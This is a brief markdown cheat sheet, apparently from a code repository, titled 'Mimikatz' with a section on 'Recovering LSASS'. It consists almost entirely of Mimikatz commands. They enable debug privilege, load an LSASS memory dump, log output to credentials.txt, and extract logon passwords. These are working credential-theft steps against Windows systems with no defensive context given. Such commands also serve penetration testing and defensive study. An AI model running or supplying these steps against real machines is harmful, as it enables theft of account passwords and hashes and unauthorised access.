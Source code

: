 # Mimikatz

## Recovering LSASS
```
Open an Administrative prompt
mimikatz # privilege::debug and make sure we get '20' ok
mimikatz # sekurlsa::minidump c:\tmp\lsass.dmp
mimikatz # log credentials.txt
mimikatz # sekurlsa::logonPasswords
```